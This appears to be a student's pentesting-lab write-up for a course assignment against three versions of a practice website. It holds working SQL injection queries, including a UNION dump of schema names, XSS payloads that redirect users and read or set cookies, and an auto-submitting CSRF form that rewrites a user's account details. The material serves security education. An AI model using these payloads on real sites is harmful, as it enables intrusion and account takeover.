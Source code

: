 # Week 9 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking/Fixation
Steps to recreate:
  1. Log in on one browser and use the hacktools/change_session_id.php script to get your session ID.
  2. On a different browser, change your session ID to match the previous one you recived using hacktools/change_sessions_id.php.
  3. You can now log in to the same account on the new browser without having to enter a password since it has the same session id as the other browser.
  
![](SessionHijacking.gif)

Vulnerability #2: SQL Injection (SQLi)

Steps to recreate:
  1. Visit the page of any sales person.
  2. In the url, instead of ```id=1```, write ```id=' OR SLEEP(5)=0--'```, in the sleep() function you can change the seconds to chage the loading time. 
  3. This causes the page to continue loading for the specified amount of time in seconds. 
  
![](SQLinj.gif)


## Green

Vulnerability #1: Username Enumeration

Steps to recreate:
  1. Trying to log in with a username that exists results in bold text saying failed to log in. The html class is listed as "failure".
  2. Trying to log in with a username that doesn't exist results in a text saying failed to log in that is not bolded. The html class is also differenct and listed as "failed".
  
  3. The green developer made different classes for a username that does exist and a username that doesn't exist. The other two developers use the same "failure" class for both cases. 
  
  ![](UserEnum.gif)
  
Vulnerability #2:Cross-Site Scripting (XSS)

Steps to recreate:
  1. Go to the contact tab and fill out the form with the following inside the feedback section:
  ```<script>alert('Owen found the XSS');</script>```
  2. Now when a user logs in and checks the feedback tab, the script will be ran and there will be a message with the alert. 
  

![](XSS.gif)

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Steps to recreate:
  1. You can view any salesperson's page by changing the value of the id in the url

  2. ID 10 or 11 shouldn't be accessible by a user that is not logged in. When trying to check ID number 10 or 11 for other colors the pages redirect to the main page.
  
  ![](IDOR.gif)

Vulnerability #2:Cross-Site Request Forgery (CSRF)

Steps to recreate:
  1. Logging in and running the html file causes the users name to be changed according to the info entered in the html file. 
  2. For example, if an authenticated user loaded a page with the following sample HTML, the information for salesperson with id 1 will change to whatever is in the html file without the action being visible to the user:
  
  ```
<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="0" height="0" frameBorder="0" id="gif" name="gif"></iframe>

<form action="https://104.198.208.81/red/public/staff/users/edit.php?id=1" method="post" id="leform" target="gif">
    <input name="csrf_token" value="ae0c79a6ab8d30d1c0c147699df11fe8" type="hidden">
    <input name="first_name" value="Owen" type="hidden">
    <input name="last_name" value="Ah" type="hidden">
    <input name="username" value="YouHaveBeenHACKED" type="hidden">
    <input name="email" value="hijacked@email.com" type="hidden">
    <input name="previous_password" value="" type="hidden">
    <input name="password" value="" type="hidden">
    <input name="confirm_password" value="" type="hidden">
  </form>

<script>document.getElementById("leform").submit();</script>

<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="480" height="253" frameBorder="0" class="giphy-embed" allowFullScreen id="gif
" name="gif"></iframe>
```
  
  ![](CSRF.gif)
  
## Optional
  
**Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.**
  
 Steps to recreate:
    1. We took advatage of blue and injected the following SQL query in the url to get the names of tables and columns:
    
    ```
    ' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- -
    ```
    
   ![](Bonus-SQLi.gif)
   
**Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.**
 
 Steps to recreate:
    1. I was able to insert ```<script>document.location="https://www.google.com"</script>``` into the feedback page form to redirect the user to a new URL.
     2. I am pretty sure that inserting ```<script>document.cookie = "username=Jonny";</script>``` into the form would set cookie data and inserting ```<script>alert(document.cookie);</script>``` into the form would read cookie data. However, I was unable to test the XSS because I wasn't able to reset the feedback page therefore the URL redirection is executed before the cookie script can run.
    
  ![](Bonus-1.gif)
  
## Notes

Describe any challenges encountered while doing the work?
This was a bit tedious, I had hard time with writing a html form for cross-site scripting forgery. In general, it took longer than previous weeks as I had to check different targets for different vulnerabilities. Furthermore, not being able to reset the feedback didn't allow me to execute few of the other scripts I wanted to run.  
